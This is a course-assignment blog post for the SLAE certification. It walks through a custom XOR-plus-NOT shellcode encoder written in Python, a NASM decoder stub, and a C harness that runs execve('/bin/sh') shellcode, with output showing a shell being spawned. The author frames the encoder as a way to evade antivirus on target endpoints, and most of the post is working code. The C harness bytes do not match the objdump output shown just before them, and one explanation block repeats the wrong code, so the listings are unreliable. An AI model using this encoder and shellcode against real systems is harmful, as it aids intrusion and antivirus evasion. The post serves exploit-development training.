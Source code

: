 The fourth assignment was to create a custom encoder, which I decided to create an encoder using Python and the decoder in Nasm. An encoder helps obfuscate payloads/shellcode and assists in evading anti-virus protection on target endpoints. 

In order to satisfy this assignment, I decided to make my shellcode not only encoded with `XOR`, but also perfom a NOT operation as well, shifting every `XOR`'d byte to it's complement. 

I created a python script in order to take some shellcode (the shellcode created within the SLAE labs that calls `execve` syscall and executes `/bin/sh`). I will show the python script and then explain what it does in detail.



```python
#!/usr/bin/python3
from termcolor import colored

# objdump output for the execve-stack binary that executes /bin//sh

shellcode = (b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")


# Set up some named variables

shellcode_encode = ""

x86_encode = ""

# For loop to do the actual obfuscation

for i in bytearray(shellcode):


	# XOR the shifted value with 0xAA
	xor = i^0xAA

	# Perform NOT operation on XOR value
	complement = ~xor

	# Start the shellcode output bytes with "\x"
	shellcode_encode += "\\x"

	# Create hex format
	shellcode_encode += "%02x" % (complement & 0xff)

	# Create format for nasm file
	x86_encode += "0x"

	x86_encode += "%02x," % (complement & 0xff)


# Print results

print(colored("[+]", 'green')+" Your encoded shellcode sir: \n\n" + colored(shellcode_encode+ "\n", 'green', attrs=['bold']))
print(colored("[+]", 'green')+" Your encoded shellcode for you nasm file: \n\n" + colored(x86_encode + "\n", 'green', attrs=['bold']))
print(colored("[+]", 'green')+ " The shellcode length for your information: %d" % len(bytearray(shellcode)))
```
So reading through the comments, one can deduce what this script is doing. It first takes the shellcode that is obtained on the `execve-stack` binary created during the SLAE exercise and puts it into a variable. It then `XOR`'s every byte within this shellcode, and the performs a `NOT` operation on the result. It then formats and prints the resulting obfuscated shellcode for both a C program and for a Nasm program.


Using the encoded shellcode
---------------------------

So using the output as seen below:



![](/assets/images/Obfuscate_Output.png)

As you can see, it displays the formated shellcode for us to use within our nasm file. I will now show the decoder shellcode that will take the encoded shellcode printed from the python script, and then decode it into usable shellcode. 


```nasm
global _start


section .text

_start:

	jmp short call_decoder 		; Start of JMP CALL POP




decoder_start:

	pop esi 	; Taking the top of the stack (shellcode) and putting it into ESI


decoder:

	cmp byte [esi], 0xaa		; Using 0xaa as an indicator we hit the end of shellcode
	jz shellcode			; If we hit the end, execute shellcode
	not byte [esi]			; Do NOT operation (starting with last encoding first)
	xor byte [esi], 0xAA		; XOR ESI with 0xAA 
	inc esi				; Go byte by byte through ESI
	jmp short decoder		; Loop back through this function to run decoder on every byte
	

call_decoder:

	call decoder_start	; CALL next function, loading shellcode onto top of stack

	shellcode: db 0x64,0x95,0x05,0x3d,0x7a,0x7a,0x26,0x3d,0x3d,0x7a,0x37,0x3c,0x3b,0xdc,0xb6,0x05,0xdc,0xb7,0x06,0xdc,0xb4,0xe5,0x5e,0x98,0xd5,0xaa
```

Let's go through this decoder line by line.


Decoder Shellcode
-----------------

To get the encoder started, we will utilize a technique called `JMP CALL POP`. This reduces the total shellcode size, by doing a short `jmp` to a funciton that does a `call` to another function, thereby loading shellcode into the stack. 

```nasm
jmp short call_decoder          ; Start of JMP CALL POP
```

```nasm
call_decoder:

        call decoder_start      ; CALL next function, loading shellcode onto top of stack

        shellcode: db 0x64,0x95,0x05,0x3d,0x7a,0x7a,0x26,0x3d,0x3d,0x7a,0x37,0x3c,0x3b,0xdc,0xb6,0x05,0xdc,0xb7,0x06,0xdc,0xb4,0xe5,0x5e,0x98,0xd5,0xaa
```


After the the `call` instruction is used and the shellcode is loaded onto the stack, the decoder then puts the top of the stack (the shellcode) into the `ESI` variable, as seen below.

```nasm
decoder_start:

        pop esi         ; Taking the top of the stack (shellcode) and putting it into ESI
```

If you look closely, at the end of the shellcode, there is a value of `0xaa`. This value was appended to the shellcode in order to help with checking for the end of the shellcode while looping through each byte of it. Once it hits this arbitrary value, we will make the loop stop with the following code:

```nasm
decoder:

        cmp byte [esi], 0xaa            ; Using 0xaa as an indicator we hit the end of shellcode
        jz shellcode                    ; If we hit the end, execute shellcode
```

If the decoder hasn't reached the end of the shellcode, it will continue to the next instruction. The next series of instructions start the actual decoding process, in reverse order they were encoded. This is because the way that the `x86` stack works, where it stacks from top to bottom (reverse order). Let see the decoding instructions below:

```nasm
decoder:

        cmp byte [esi], 0xaa            ; Using 0xaa as an indicator we hit the end of shellcode
        jz shellcode                    ; If we hit the end, execute shellcode
```


Compiling and Running Shellcode
-------------------------------

Now that we have our decoder set up with the encoded shellcode, we can compile it and grab the `objdump` output from it.


```sh
anubis@ubuntu:~/SLAE/Assignment_4$ ./compile.sh decode
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
anubis@ubuntu:~/SLAE/Assignment_4$ obj decode
"\xeb\x0e\x5e\x80\x3e\xaa\x74\x0d\xf6\x16\x80\x36\xaa\x46\xeb\xf3\xe8\xed\xff\xff\xff\x64\x95\x05\x3d\x7a\x7a\x26\x3d\x3d\x7a\x37\x3c\x3b\xdc\xb6\x05\xdc\xb7\x06\xdc\xb4\xe5\x5e\x98\xd5\xaa"
anubis@ubuntu:~/SLAE/Assignment_4$
```
We can now add this ouptput in the shellcode `C` program that has been provided to us by the SLAE training material.


```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x12\x5e\x80\x3e\xaa\x74\x11\xf6\x16\x80\x36\xaa\xb0\x50\x2a\x06\x46\xeb\xef\xe8\xe9\xff\xff\xff\x64\x95\x05\x3d\x7a\x7a\x26\x3d\x3d\x7a\x37\x3c\x3b\xdc\xb6\x05\xdc\xb7\x06\xdc\xb4\xe5\x5e\x98\xd5\xaa";
main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

Now we compile this program like we have with other assignments and run the executable. 


```sh
anubis@ubuntu:~/SLAE/Assignment_4$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
shellcode.c:6:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
 main()
 ^
anubis@ubuntu:~/SLAE/Assignment_4$ ./shellcode
Shellcode Length:  51
$ pwd
/home/anubis/SLAE/Assignment_4
$ whoami
anubis
$ exit
anubis@ubuntu:~/SLAE/Assignment_4$ 
```

And that is our successful decoder! Thank you for reading, and coming up next will be Assignment 5.




<hr />

This blog post was created as per the requirements of the Security Tube Linux Assembly Expert certification.

Student ID: SLAE-1406

Please see [https://github.com/AnubisSec/SLAE](https://github.com/AnubisSec/SLAE) for all the source files mentioned on this site.
